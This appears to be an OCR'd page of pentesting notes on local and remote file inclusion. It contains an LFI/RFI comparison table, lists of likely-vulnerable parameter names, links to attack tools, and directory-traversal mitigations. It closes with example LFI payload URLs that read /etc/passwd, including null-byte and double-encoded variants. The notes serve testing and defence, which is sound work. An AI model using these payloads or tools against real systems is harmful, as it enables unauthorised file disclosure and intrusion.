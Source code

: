 **Example:** An attacker injects a URL containing malicious code into a comment form, compromising the server upon submission.

| Feature                 | LFI                                     | RFI                                          |
|-------------------------|-----------------------------------------|----------------------------------------------|
| File location           | Local server                            | Remote server                                |
| Exploitation difficulty | Easier (often just directory traversal) | Harder (requires specific vulnerabilities)   |
| Impact                  | Server-specific                         | Can be wider due to potential malware spread |

**LFI possible parameters**

file,document,folder,root,path,pg,style,pdf,template,php_path,doc,content,static and if any url mentioned ../../ to check traversal vulnerability weather it is changing directories or not.

**RFI possible parameters**

dest,redirect,url,path.continue,windows,next,data,reference,,site,html,val,validate,domain,callback,return,page,feed,host,port,to,out,view,dir,show,navigation,open

Tool:

Kadimus - <https://github.com/P0cL4bs/Kadimus>

LFISuite - <https://github.com/D35m0nd142/LFISuite>

fimap - <https://github.com/kurobeats/fimap>

1.  **will blocking ../ will prevent directory traversal?**

The ans is No. this is depend on the platform. Here are the mitigations below.

1.  1\. Validate the user’s input. Accept only valid values (whitelist).
    1.  2\. Remove “..\\” and “../” from any input that’s used in a file context.
    2.  3\. Use indexes instead of actual portions of file names while using language files. (i.e. – value 5 from the user submission = Indian, rather than expecting the user to return “Indian”).
    3.  4\. Implement strict code access policies to restrict where files can be saved to.
    4.  5\. Ensure the user cannot supply any part of the path to the file read or written to.
    5.  6\. UNIX system administrators are advised to use chrooted jails and code access policies to restrict where the files can be obtained or saved.
    6.  7\. Configure the default installation of the server software as per the requirements. The servers should also be maintained and patched with the latest updates.

1\. Basic LFI 2. Null Byte Injection 3.Double encoding 4. UTF-8 encoding 5. double // 6. Directory Traversal vulnerability (Follow Below)

Basic LFI

<http://example.com/index.php?page=../../../etc/passwd>

Null byte

<http://example.com/index.php?page=../../../etc/passwd%00>

Double encoding

<http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd>

<http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00>
